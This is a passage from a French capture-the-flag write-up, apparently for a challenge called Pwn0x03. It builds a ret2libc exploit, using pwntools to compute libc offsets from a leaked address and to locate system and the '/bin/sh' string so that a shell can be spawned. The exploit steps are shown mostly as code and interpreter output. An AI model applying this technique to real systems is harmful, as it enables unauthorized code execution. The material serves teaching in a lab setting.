 Et calculons cet offset avec Python :

```python
>>> 0x7ffff7df9083-0x7ffff7dd5000
147587
```

Nous avons maintenant toutes les informations nécessaires, passons à l'exploit.

## Exploit

Maitenant que nous savons comment leaks les informations nécessaires, il faut comprendre comment retrouver les adresses de la `libc` avec celles-ci. Nous avons la `libc` utilisé par le serveur à disposition, nous pouvons donc facilemenet retrouver les adresses de fonctions à l'intérieur de celle-ci :

```python
>>> from pwn import *

>>> libc = ELF("./libc.so.6")
[*] '/home/geoffrey/Documents/Campus/Star-Hack/Pwn0x03/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled

>>> libc.sym["system"]
336528

>>> hex(libc.sym["system"])
'0x52290'
```

`0x52290` est donc l'offset entre la première adresse de la `libc`, et le début de la fonction `system`. Nous pouvons donc par exemple calculer l'adresse de `system` avec le leak de cette manière : `(leak - 147587) + libc.sym["system"]` (avec 147587 l'offset entre le leak et la première adresse de la `libc` calculé plus tôt).

Et enfin, il ne nous reste plus qu'à faire notre payload, en l'occurence nous allons simplement ouvrir un shell avec la fonction `system`. Pour ce faire il nous faut l'adresse du string `/bin/sh` :

```python3
>>> from pwn import *

>>> libc = ELF("./libc.so.6")
[*] '/home/geoffrey/Downloads/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled

>>> hex(next(libc.search(b'/bin/sh')))
'0x1b45bd'
```
